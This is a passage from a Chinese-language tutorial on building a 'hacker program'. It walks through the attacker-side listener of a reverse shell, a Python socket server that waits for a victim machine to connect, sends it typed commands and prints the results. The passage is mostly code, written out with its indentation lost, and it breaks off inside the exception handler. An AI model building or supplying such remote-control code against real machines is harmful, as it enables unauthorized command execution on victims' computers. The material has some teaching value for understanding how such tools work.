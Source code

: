 一旦命令发送出去，受害者端程序会负责执行它并返回结果。在黑客程序中，我们只是接收受害者返回的结果并将其打印出来：

command_result = hacker_socket.recv(1048)

print(command_result.decode())

接下来，我们将把它放入一个循环中，并添加退出条件：

while True:

command = input("请输入命令 ")

hacker_socket.send(command.encode())

if command == "stop":

break

command_result = hacker_socket.recv(1048)

print(command_result.decode())

`if` 语句确保我们能够在需要时安全地退出这个循环，从而避免陷入死循环。此外，为了确保在执行过程中遇到任何错误时能够正确关闭套接字，我们会添加一个`try-catch`块进行异常处理。执行命令的完整黑客程序如下所示：

import socket

if __name__ == "__main__":

hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

IP = "192.168.74.128"

Port = 8008

socket_address = (IP, Port)

hacker_socket.bind(socket_address)

hacker_socket.listen(5)

print("监听传入的连接请求")

hacker_socket, client_address = hacker_socket.accept()

print("与 ", client_address, " 建立连接")

try:

while True:

command = input("请输入命令 ")

hacker_socket.send(command.encode())

if command == "stop":

break

command_result = hacker_socket.recv(1048)

print(command_result.decode())

except Exception:
